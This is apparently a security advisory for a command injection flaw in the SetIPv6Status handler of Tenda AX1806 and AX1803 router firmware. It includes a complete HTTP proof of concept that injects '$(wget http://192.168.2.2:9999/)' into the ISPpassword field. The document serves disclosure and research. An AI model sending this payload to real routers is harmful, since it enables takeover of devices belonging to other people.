


# Tenda AX18 v1.0.0.1 has a commend injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: Tenda (https://tenda.com.cn)
- **Products**: WiFi Router AX1806 v1.0.0.1 and AX1803 v1.0.0.1
- **Firmware download address:** https://tenda.com.cn/download/detail-3225.html
- **Firmware download address:** https://www.tenda.com.cn/product/download/AX1806.html


## Description

### 1.Product Information:

Tenda AX1806 v1.0.0.1 and AX1803 v1.0.0.1  router, the latest version of simulation overview：




### 2. Vulnerability details

Tenda AX1806 and AX1803 was discovered to contain a command injection vulnerability in `SetIPv6Status` function


When we set connect type = `PPPoE` we will get a command injection vulnerability after login.


## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.2.1
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://192.168.2.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

IPv6En=1&conType=PPPoE&ISPusername=addasdas&ISPpassword=$(wget http://192.168.2.2:9999/)&prefixDelegate=0&wanAddr=%2F&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

